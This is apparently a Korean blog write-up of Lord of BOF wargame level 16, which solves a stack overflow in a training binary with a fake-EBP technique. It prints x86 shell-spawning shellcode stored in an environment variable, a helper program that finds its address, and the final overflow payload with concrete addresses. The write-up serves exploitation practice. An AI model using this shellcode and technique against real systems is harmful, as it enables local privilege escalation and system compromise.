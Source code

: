 ```yaml
---
title:  "[LOB] level 16: assassin >> zombie_assassin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-27 10:12:13

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 16

**assssin / pushing me away**

zombie_assassin.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147447840-6d3f4e6f-0e90-407f-90aa-9e972e8acba2.png)

argv[1][47] == \xbf : 스택영역 사용불가  
argv[1][47] == \x40 : 라이브러리 사용불가  
buffer+48영역까지만 bof가능  

이번 문제는 Fake ebp를 이용하는 문제이다 FPO랑 비슷하다. FPO같이 ip(instruction pointer)를 변경시켜서 원하는 값에 접근하는 공격기법이고, 사용하기 위해선 sfp, ret까지 overflow가 가능해야 한다.

페이로드 구상도:  
>dummy[4]+&shellcode[4]+dummy[32]+&buffer[4]+&leave[4]

쉘코드는 환경변수를 이용
> export EGG=\`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/147458253-9f3b97cb-247c-4958-b735-d9f12d6ba32c.png)  
쉘코드 주소: 0xbffffe87

![image](https://user-images.githubusercontent.com/69203345/147458928-93183232-9717-4868-98c5-0cd4abd4e9e3.png)  
leave 주소: 0x80484df

![image](https://user-images.githubusercontent.com/69203345/147460507-998f62c1-9490-4e88-a79c-7c1592bd791c.png)  
buffer 시작주소:0xbffffa60  

페이로드:  
>\`python -c 'print "A"*4+"\x87\xfe\xff\xbf"+"A"*32+"\x60\xfa\xff\xbf"+"\xdf\x84\x04\x08"'`

![image](https://user-images.githubusercontent.com/69203345/147461530-ece1ce41-653f-4708-840f-82e096081329.png)

---
[참고](https://dokhakdubini.tistory.com/254)